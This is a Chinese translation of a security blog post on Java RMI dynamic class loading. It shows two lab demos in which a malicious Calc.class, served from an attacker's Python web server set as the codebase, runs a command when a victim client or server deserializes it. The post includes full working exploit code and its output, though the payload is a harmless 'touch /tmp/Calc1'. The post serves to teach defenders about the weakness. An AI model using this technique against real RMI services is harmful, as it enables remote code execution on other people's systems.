





# JNDI 注入系列:RMI 向量——从远程 URL 动态加载类

> 原文：<https://infosecwriteups.com/jndi-injection-series-rmi-vector-dynamic-class-loading-from-remote-url-28dcbf9cee27?source=collection_archive---------4----------------------->


[https://unsplash.com/photos/zxLFkqDtG08](https://unsplash.com/photos/zxLFkqDtG08)

我们已经在[的前一篇博客](https://medium.com/bugbountywriteup/jndi-injection-series-rmi-vector-1-31044f782daa)中介绍了 RMI 系统的基本原理。在这篇博客中，我们将继续讨论如何利用 RMI 通过动态类加载获得 RCE。

# RMI 中的动态类加载

Java RMI 是一种机制，它允许存在于一个 Java 虚拟机(RMI 客户机)中的对象调用在另一个 Java 虚拟机(RMI 服务器)中定义的方法。当 RMI 调用中传递的参数、返回值或异常是一个对象时，RMI 系统使用对象序列化将数据从一台机器传输到另一台机器。接收程序解组远程方法调用的参数和返回值，它们成为活动对象。在反序列化过程中，流中的这些传输对象需要类定义。如果它们是标准对象，那么这些类将被本地加载，因为它们在每个 JVM 中都是可用的。但是如果类不能在接收程序上本地解析，RMI 提供了一个工具，用于从发送端点指定的网络位置动态加载类定义。

下图描述了 RMI 系统，该系统使用 RMI registry 获取对远程对象的引用，并在需要时使用现有的 Web 服务器在解组上述场景中传输的对象时加载类字节码。可以是 RMI 客户机或 RMI 服务器下载类定义。



如果在接收方的 JVM 中没有找到类定义，RMI 允许接收方下载对象类的定义。一个对象的所有类型和行为，以前只能在单个 JVM 中使用，现在可以传输到远程接收方的 JVM。这种能力动态地扩展了应用程序的行为，但同时，如果类定义文件被对手控制，就会引入危险的攻击媒介。任意的类被类加载器解释到 JVM 中，这意味着字节码——不管有多恶意——将在您的系统中被解释。接收者的服务器将成为 RCE 的牺牲品。

有两个例子来展示 RMI 客户机如何攻击 RMI 服务器，以及 RMI 服务器如何利用 RMI 系统的动态类加载特性来攻击 RMI 客户机。

这两个例子为 RMI 服务器和 RMI 客户机使用了在上一篇博客的[2.1 节中设置的相同环境。](https://medium.com/bugbountywriteup/jndi-injection-series-rmi-vector-1-31044f782daa)

# 演示 1 攻击 RMI 客户端

在本演示中，有两台服务器，一台是 IP 为 192.168.0.96 的 RMI 客户端，另一台是 IP 为 192.168.0.95 的 RMI 服务器。为恶意 Calc.class 提供服务的 python web 服务器在 RMI 服务器上运行。为了攻击 RMI 客户端，RMI 服务器将 python web 服务器配置为代码库，并使用 Calc 对象作为 RMI 客户端调用的方法的返回值。由于 Calc 对象只存在于 RMI 服务器指定的代码库中，所以 RMI 客户机在获得 Calc 对象作为返回值后，可以下载 Calc.class 来解析 Calc 类的定义。植入 Calc.class 的恶意命令一旦被 RMI 客户端 JVM 解释，就会被执行。



# 2.1 设置 RMI 服务器

**定义远程接口**

正如在[之前的博客](https://medium.com/bugbountywriteup/jndi-injection-series-rmi-vector-1-31044f782daa)中提到的，RMI 应用程序应该从扩展 RMI 定义的远程接口的远程接口开始。可以远程调用的远程对象的方法必须在接口中指定。接口中的每个方法都必须声明为抛出 RemoteException，以解决远程方法调用期间的错误。

在这个演示中，服务接口是在 Services.java 定义的。

Services.java

```
package rmi.api;
import java.rmi.RemoteException;
​
public interface Services extends java.rmi.Remote {
    Object sendMessage(String msg) throws RemoteException;
}
```

同一个接口是服务器和客户机应用程序的一部分，充当它们之间通信的契约。

**开发实现类**

远程接口提供了特定远程对象的所有方法的描述，接下来的事情是创建该接口的实现，并提供该接口的所有抽象方法的实现。

ServicesImpl.java

```
package rmi.api.imp;
import rmi.remoteclass.Calc;
import java.rmi.RemoteException;
import rmi.api.Services;
​
public class ServicesImpl implements Services {
    @Override
    public Calc sendMessage(String msg) throws RemoteException {
        return new Calc();
    }
}
```

Calc 类是在 RMI 服务器上定义的恶意类，Calc 对象是 RMI 客户端将调用的 sendMessage 方法的返回值。在 Calc.class 内部，有一个包含任意命令的静态块。当 Calc.class 加载到 RMI 客户机 JVM 中时，静态块将被触发。

Calc.java

```
package rmi.remoteclass;
import java.lang.Runtime;
import java.lang.Process;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
import java.io.Serializable;
​
public class Calc implements ObjectFactory, Serializable {
    private static final long serialVersionUID = 4474289574195395731L;
​
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            // it will get executed on the RMI client 
            String[] commands = {"touch", "/tmp/Calc1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
​
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment)  throws Exception {
        try {
            // it will not get executed during the exp
            System.out.println("Enter getObjectInstance");
        } catch (Exception e) {
            // do nothing
        }
        return null;
    }
}
```

**创建 RMI 服务器类**

RmiServer.java

```
package rmi.server;
​
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import rmi.api.imp.ServicesImpl;
import rmi.api.Services;
​
public class RmiServer {
    public static void main(String[] args) {
        try {
            ServicesImpl obj = new ServicesImpl();
            Services services = (Services) UnicastRemoteObject.exportObject(obj, 0);
            System.setProperty("java.rmi.server.codebase", "http://192.168.0.95:8000/");
​
            Registry reg;
            try {      
                reg = LocateRegistry.createRegistry(9999);
                System.out.println("java RMI registry created. port on 9999...");
            } catch (Exception e) {
                System.out.println("Using existing registry");
                reg = LocateRegistry.getRegistry();
            }            
            reg.bind("Services", services);
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        }
    }
}
​
```

192.168.0.95 是 RMI 服务器的 IP，当 RMI 服务器将代码库设置为 192.168.0.95 时，它还用于托管 python web 服务器以提供 Calc.class 文件，并且您可以根据需要将其配置为另一个服务器 IP。

**编译代码**

上述源代码文件存储在以下文件夹结构中，供您参考。



编译 Calc.java

```
[root@demo rmi-server]# javac rmi/remoteclass/Calc.java
```

在 rmi-server 文件夹下设置简单的 http 服务器来服务 Calc.class

```
[root@demo rmi-server]# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

编译 RMI 服务器并启动它

```
[root@demo rmi-server]# javac rmi/server/RmiServer.java 
[root@demo rmi-server]# java rmi/server/RmiServer
java RMI registry created. port on 9999...
```

# 2.2 建立一个 RMI 客户端

您已经准备好了 RMI 服务器，现在是 RMI 客户端的时候了。在客户机服务器上，这更简单，您只需要定义与 RMI 服务器上相同的远程接口，并创建 RMI 客户机类。

**定义远程接口**

Services.java

```
package rmi.api;
import java.rmi.RemoteException;
​
public interface Services extends java.rmi.Remote {
    Object sendMessage(String msg) throws RemoteException;
}
```

该接口应该在 RMI 服务器中指定的同一个包中，否则当 RMI 客户端试图调用远程服务器对象上的方法时，您将遇到一些错误“没有安全管理器:RMI 类加载器被禁用”。

**创建 RMI 客户端**

RmiClient.java

```
//RMIClient1.java
package rmi.client;
​
import java.rmi.RMISecurityManager;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import rmi.api.Services;
​
public class RmiClient {
​
    public static void main(String[] args) throws Exception {
        String host = "localhost";
        if (args.length > 0)
            host = args[0];
​
        System.setProperty("java.security.policy", RmiClient.class.getClassLoader().getResource("resources/java.policy").getFile());
        RMISecurityManager securityManager = new RMISecurityManager();
        System.setSecurityManager(securityManager);
​
        Registry registry = LocateRegistry.getRegistry(host, 9999);
        Services services = (Services) registry.lookup("Services");
        services.sendMessage("hello");
    }
}
```

上述源代码文件存储在以下文件夹结构中，供您参考。



在 RMI 客户机上，编译 java 文件并在 rmi-client 目录下执行它。因为您已经将 RMI 服务器和客户机放在不同的服务器上，所以当运行 RMI 客户机时，RMI 服务器的 IP(在本演示中，192.168.0.95 是 RMI 服务器的 IP)应该作为 RMI 客户机的一个参数。

```
[root@demo rmi-client]# javac rmi/client/RmiClient.java 
[root@demo rmi-client]# java rmi/client/RmiClient 192.168.0.95
[root@demo rmi-client]#
```

在 RMI 服务器端，记录了 Calc.class 是由 IP 地址为 192.168.0.96 的 RMI 客户端从 web 服务器下载的:

```
[root@demo ~]# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.96 - - [25/Dec/2022 21:35:55] "GET /rmi/remoteclass/Calc.class HTTP/1.1" 200 -
```

检查 RMI 客户端服务器上的/tmp/ folder，你会发现 Calc1 文件，这意味着 Calc 类的静态块内的`String[] commands = {"touch", "/tmp/Calc1"};`得到执行。

```
[root@demo ~]# ls /tmp/
Calc1
```

# 演示 2 攻击 RMI 服务器

仍然使用两个与上一个演示相同的服务器(一个是具有 IP 192.168.0.96 的 RMI 客户端，另一个是具有 IP 192.168.0.95 的 RMI 服务器)，但是本演示在这两个服务器之间切换了攻击者和受害者角色。

这一次，一个服务于恶意 Calc.class 的 web 服务器在 RMI 客户机服务器上运行。为了攻击 RMI 服务器，RMI 客户端将 web 服务器配置为代码库，并使用 Calc 对象作为远程调用方法的参数。由于 Calc 对象只存在于 RMI 客户机指定的代码库中，所以 RMI 服务器在获得 Calc 对象作为被调用方法的输入参数后，将下载 Calc.class 来解析 Calc 类的定义。嵌入在 Calc 类中的恶意命令一旦被 RMI 服务器 JVM 解释就会被执行。



为了简洁起见，这里只显示 RMI 服务器和 RMI 客户机类的代码。完整的源代码可以从博文末尾的 github 下载。

RMI 服务器的 java 文件:

RmiServer.java

```
package rmi.server;
​
import java.rmi.RMISecurityManager;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import rmi.api.imp.ServicesImpl;
import rmi.api.Services;
​
public class RmiServer {
    public static void main(String[] args) {
        try {
            ServicesImpl obj = new ServicesImpl();
            Services services = (Services) UnicastRemoteObject.exportObject(obj, 0);
            Registry reg;
​
            try {
                System.setProperty("java.security.policy", RmiServer.class.getClassLoader().getResource("resources/java.policy").getFile());
                RMISecurityManager securityManager = new RMISecurityManager();
                System.setSecurityManager(securityManager); 
​
                reg = LocateRegistry.createRegistry(9999);
                System.out.println("java RMI registry created. port on 9999...");
            } catch (Exception e) {
                System.out.println("Using existing registry");
                reg = LocateRegistry.getRegistry();
            }

            reg.bind("Services", services);
​
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        }
    }
}
```

编译启动 RMI 服务器的代码。

```
[root@demo rmi-server]# javac rmi/server/RmiServer.java 
[root@demo rmi-server]# java rmi/server/RmiServer
java RMI registry created. port on 9999...
```

RMI 客户端类定义如下:

RmiClient.java

```
//RMIClient1.java
package rmi.client;
​
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import rmi.api.Services;
import rmi.remoteclass.Calc;
​
public class RmiClient {
    public static void main(String[] args) throws Exception {
        String host = "localhost";
        if (args.length > 0)
            host = args[0];
​
        System.setProperty("java.rmi.server.codebase", "http://192.168.0.96:8000/");
        Registry registry = LocateRegistry.getRegistry(host, 9999);
        Services services = (Services) registry.lookup("Services");
        Calc calc = new Calc();
        services.sendMessage(calc);
    }
}
```

RMI 服务器上定义的 sendMessage 方法接受 Message 对象作为参数，但是为了攻击 RMI 服务器，RMI 客户机提供了一个 Calc 对象作为 sendMessage 方法的参数。

在客户端，启动一个简单的 web 服务器来托管 Calc.class 文件。

```
[root@demo rmi-client]# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

编译计算代码

```
[root@demo rmi-client]# javac rmi/remoteclass/Calc.java
```

编译 RMI 客户端代码，并启动它，192.168.0.95 是 RMI 服务器的 IP。

```
[root@demo rmi-client]# javac rmi/client/RmiClient.java 
[root@demo rmi-client]# java rmi/client/RmiClient 192.168.0.95
[root@demo rmi-client]#
```

在 RMI 客户机被执行之后，从 web 服务器的控制台，观察到 RMI 服务器(192.168.0.95)从 web 服务器下载恶意的 Calc.class。

```
[root@demo rmi-client]#  python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.95 - - [25/Dec/2022 22:55:13] "GET /rmi/remoteclass/Calc.class HTTP/1.1" 200 -
```

检查 RMI 服务器 Linux 上的 tmp 文件夹，Calc1 文件是 Calc.class 中的嵌入式命令在 RMI 服务器上执行的结果。

```
[root@demo rmi-server]# ls /tmp/
Calc1
```

以上两个演示的源代码可以在[攻击 RMI 客户端](https://github.com/zer0-map/JNDI-Injection-Series/tree/main/RMIVector/rmi-DynamicObjectLoading-attackingClient)和[攻击 RMI 服务器](https://github.com/zer0-map/JNDI-Injection-Series/tree/main/RMIVector/rmi-DynamicObjectLoading-attackingServer)找到。

事实上，从远程源加载动态类存在限制和过滤机制，攻击者从未停止发展和采用新技术来绕过这些限制，您将在本系列的下一篇博文中看到一些利用示例。

在下一篇博文中，我们将学习如何使用[不安全的反序列化来攻击 RMI 服务](https://medium.com/@yany.dong/jndi-injection-series-rmi-vector-insecure-deserialization-9b7a4b524d1d)。

参考:

https://paper.seebug.org/1091/

# 最后的想法

如果您有任何问题或反馈，请随时发表评论。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！